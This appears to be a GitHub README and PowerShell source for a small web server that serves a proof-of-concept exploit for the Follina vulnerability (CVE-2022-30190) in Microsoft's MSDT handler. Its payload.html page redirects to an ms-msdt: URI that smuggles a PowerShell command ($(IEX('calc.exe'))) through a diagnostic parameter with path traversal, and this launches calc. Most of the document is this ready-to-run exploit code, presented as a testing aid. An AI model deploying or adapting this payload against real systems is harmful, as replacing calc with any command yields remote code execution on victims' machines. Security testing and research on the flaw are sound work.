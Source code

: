 # Follina Web Server

Simple PowerShell web server to assist in POC Follina testing by popping calc. 
When running, by default URL can be accessed via: http://localhost:8081/payload.html

References:

https://github.com/JMousqueton/PoC-CVE-2022-30190 - Good resource on creating your own POC
https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/creating-powershell-web-server - Base code for powershell web server


```powershell
# enter this URL to reach PowerShell's web server
$url = 'http://localhost:8081/'

# HTML content for some URLs entered by the user
$htmlcontents = @{
############# GET /payload.html (to pop calc)
"GET /payload.html"  =  @'    
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
'@;
############# GET / (Root)
'GET /' = @'   
<!doctype html>
<html lang="en">
<body>
Webserver OK
</body>
</html>
'@
}

# -------------------------------------
# start web server
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add($url)
$listener.Start()

try
{
  while ($listener.IsListening) {  
    # process received request
    $context = $listener.GetContext()
    $Request = $context.Request
    $Response = $context.Response

    $received = '{0} {1}' -f $Request.httpmethod, $Request.url.localpath
    
    # is there HTML content for this URL?
    $html = $htmlcontents[$received]
    if ($html -eq $null) {
      $Response.statuscode = 404
      $html = 'Oops, the page is not available!'
    } 

    Write-Output "Receiving request for $received"
    # return the HTML to the caller
    if ($Request.httpmethod -ne "HEAD") {        
        $buffer = [Text.Encoding]::UTF8.GetBytes($html)
    } else {
        $buffer = ""
    }
    $Response.ContentLength64 = $buffer.length
    $Response.OutputStream.Write($buffer, 0, $buffer.length)

    
    $Response.Close()
  }
}
finally
{
  $listener.Stop()
}
```


